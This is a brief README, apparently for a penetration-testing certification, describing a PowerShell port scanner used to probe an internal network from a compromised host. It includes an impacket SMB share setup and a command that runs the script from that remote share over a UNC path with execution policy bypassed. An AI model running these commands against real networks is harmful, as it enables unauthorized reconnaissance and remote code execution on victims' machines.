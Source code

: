 # PowerShell-PortScan-Top-1000-Ports
Quick and Easy PowerShell PortScan of the Top 1000 Ports - CSTL Special

Another tool I'm putting together as part of my CSTL Prep.

Quick PowerShell Script to find open ports on a remote network you are pivoting through.

You can either put the script on the box you have popped and run it pointing at the remote network or call it via a UNC Path

## Quick Useage

[+] Setup SMB Share on Kali - `impacket-smbserver <share name> <share path> -smb2support`

[+] Run from CMD - `powershell.exe -nop -ep bypass -File \\192.168.0.50\share\portscan.ps1`

```
C:\Users\gd\Desktop>powershell.exe -nop -ep bypass -File \\192.168.0.50\gd\PortScan.ps1
Now Scanning 172.16.51.4
22 is Open
25 is Open
80 is Open
```



